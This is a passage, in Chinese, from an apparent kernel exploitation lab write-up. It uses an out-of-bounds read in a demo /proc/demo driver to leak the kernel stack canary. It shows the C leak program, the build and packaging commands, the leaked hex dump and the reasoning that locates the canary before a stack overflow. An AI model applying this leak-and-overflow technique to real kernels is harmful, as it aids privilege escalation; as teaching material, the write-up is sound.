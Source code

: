 非常容易看到device_read也是越界的，所以可以通过读取/proc/demo把canary读出来：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>

void debug(char * buf,int len){
    for(int i=0;i<len;i++){
        if((i%8==0)  && (i!=0)) printf("  ");
        if((i%16==0) && (i!=0)) printf("\n");
        printf("%02X ",buf[i] & 0xff);
    }
    printf("\n");
}

int main(){
    char buf[0x100];
    int f = open("/proc/demo",O_RDWR);
    read(f,buf,0x100);
    debug(buf,0x100);
}
```

编译时记得静态链接，然后打包进文件系统中并启动：

```c
➜  aarch64-linux-gnu-gcc ./test.c -static -o test
➜  find . | cpio -H newc -o > ../rootfs.cpio
➜  gzip -f ../rootfs.cpio
```

执行打印泄露内存：

```c
/home/pwn # ./test
00 00 00 00 00 00 00 00   40 3D 2B 0A 00 80 FF FF   
F8 76 23 08 00 80 FF FF   00 00 4A 02 00 00 FF FF   
00 91 74 02 00 00 FF FF   00 00 4A 02 00 00 FF FF   
03 00 00 00 00 00 00 00   00 10 00 80 00 00 00 00   
00 00 00 00 00 00 00 00   00 00 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   00 00 4A 02 00 00 FF FF   
00 3B 19 0C 0C 40 6D 86   70 3D 2B 0A 00 80 FF FF   
44 27 22 08 00 80 FF FF   00 01 00 00 00 00 00 00   
00 3B 19 0C 0C 40 6D 86   80 3D 2B 0A 00 80 FF FF   
38 3F 22 08 00 80 FF FF   00 01 00 00 00 00 00 00   
00 91 74 02 00 00 FF FF   C0 3D 2B 0A 00 80 FF FF   
10 44 22 08 00 80 FF FF   00 91 74 02 00 00 FF FF   
00 91 74 02 00 00 FF FF   80 5E EA 02 00 00 FF FF   
08 06 29 D5 FF FF 00 00   00 01 00 00 00 00 00 00   
00 00 00 00 00 00 00 00   10 3E 2B 0A 00 80 FF FF   
B8 44 22 08 00 80 FF FF   B0 3E 2B 0A 00 80 FF FF 
```

基本能看出来`00 3B 19 0C 0C 40 6D 86`就是canary，因为canary的最低字节一般是00，是为了直接让字符串判定为截断。所以可以看到在这段内存里，有两个位置都存了canary，按照计算，我们更加相信偏移128字节位置为canary，并且在device_write函数中也是128字节为偏移的canary，所以直接尝试使用泄露的canary然后进行栈溢出：

